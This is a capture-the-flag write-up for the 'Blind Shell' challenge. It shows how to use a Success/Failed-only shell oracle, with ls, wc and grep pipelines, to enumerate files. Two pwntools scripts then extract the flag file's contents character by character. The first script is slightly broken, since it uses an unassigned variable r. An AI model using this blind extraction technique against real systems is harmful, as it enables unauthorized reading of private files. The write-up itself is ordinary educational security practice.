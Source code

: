 # Blind Shell

Category: misc
Points: 345

## Problem

It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010

## Writeup

In this challenge we are dealing with a particular shell.
When we execute a command we have a fixed output which consists of
"Success!" in case the execution is successful and "Failed!"
on the other hand.

For example:

```
$cat
Success!
$c
Failed!
```

The idea is to find files in the current directory, using the terminal output to our advantage.
With the aid of ls, wc, and grep, it’s possible to see inside the current directory the number of files, and also their names

To see how much files are in the current directory we’ve run this piece of commands:

```
$ ls | wc -l | grep 1
Failed!
$ ls | wc -l | grep 2
Failed!
$ ls | wc -l | grep 3
Success!
```

And to see the name of each file:<br>
First we’ve looked with what letter each filename begins:

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^v | wc -l | grep 1
Failed!
$ ls | grep ^m | wc -l | grep 1
Success!
$ ls | grep ^s | wc -l | grep 1
Success!
```

So there are 3 items into the directory, respectively beginning with ’f’, ‘m’ and ‘s’.<br>
Second, using this information, we’ve run the following script, in order to know their full names: 

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^fl | wc -l | grep 1
Success!
$ ls | grep ^fla | wc -l | grep 1
Success!
$ ls | grep ^flag\.t | wc -l | grep 1
Success!
$ ls | grep ^flag\.txt | wc -l | grep 1
Success!
```

The obtained files were:<br>
    -flag.txt: 	text file<br>
    -server.py: 	python script<br>
    -maybehere: 	directory

The same procedure is used to read from flag.txt:

```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat flag.txt | grep ^L")
conn.recvline()

read = 'L'

while True:
    for i in alphabet:
        test = read + i
        print(test)
        conn.sendline("cat flag.txt | grep " + test)
        if chr(r[2]) == 'S':
            read = test
            break


print("Here's your content: ", read)
```
After launching the script we obtain:

```
Look_around,maybe_here
```

The suspect was that inside maybehere directory there was something interesting; 
so we’ve tried to change the current directory into ./maybehere, but we’ve noticed 
that ‘cd’ command actually doesn’t change directory - in fact, we’ve tried to type ‘cd /’, 
but the current working directory remains the same, even if it returns “Success!”.
Again, thanks to the superpowers of ls, cat and grep, we’ve looked that into 
/maybehere there was the file flag.txt; so we’ve run the same script in order to get its content,
and we’ve finally discovered the flag

Script:


```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat maybehere/flag.txt | grep kks{")
conn.recvline()

flag = 'kks{'

while True:
    for i in alphabet:
        test = flag + i
        print(test)
        conn.sendline("cat maybehere/flag.txt | grep " + test)
        r = conn.recvline()
        print(r)
        if chr(r[2]) == 'S':
            flag = test
            break

    if flag[-1] == '}':
        break

print("Here's your flag: ", flag)
```

### Flag
```kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}```
